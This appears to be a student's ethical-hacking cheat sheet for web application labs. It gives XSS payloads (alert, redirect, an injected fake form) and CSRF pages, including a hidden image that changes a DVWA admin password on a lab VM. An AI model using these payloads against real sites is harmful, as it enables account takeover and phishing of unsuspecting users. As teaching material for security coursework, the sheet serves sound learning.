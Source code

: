 # EHD Cheat Sheet (Web Application)

###### tags: #EHD

## Table of Contents
```toc
```

## XSS
- Trigger alert in textbox input (Type into textbox)
```html
<script>alert("Hello!")</script>
```

- Redirect to another page (Type into textbox)
```html
<script>document.location="https://www.google.com"</script>
```

- If there is a maximum length limit for text input, inspect and modify the input element

![](https://i.imgur.com/e4sSKVf.png)

- Creating a fake form (type into textbox):
```html
<form>
Input1: <input type="text"><br>
Input2: <input type="text"><br>
<input type="submit" value="submit button">
</form>
```

## CSRF
- Create a CSRF page with the following contents:
- **Example 1:** Contains image with source to change credentials
```html
<!--
Comments:
- Replace Win10-IP with own Win10 VM IP Address
- Image source set to URI dusplayed when admin password is changed
-->
This is a very new web page
<img width="1" src="http://Win10-IP/dvwa-master/vulnerabilities/csrf/?password_new=12345678&password_conf=12345678&Change=Change">
```

- **Example 2:** Contains 1x1 small iframe to manipulate website data
```html
<iframe width="1" height="1" src="https://www.imdb.com/title/tt0803096"></iframe><br>
Good Day!
```
